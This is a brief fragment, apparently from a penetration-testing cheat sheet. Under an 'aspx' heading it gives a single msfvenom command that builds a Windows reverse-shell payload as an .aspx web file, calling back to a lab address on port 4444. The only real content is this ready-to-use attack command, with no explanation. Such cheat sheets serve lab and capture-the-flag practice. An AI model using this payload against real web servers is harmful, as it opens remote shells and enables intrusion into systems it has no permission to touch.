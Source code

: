 ### aspx
`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx`

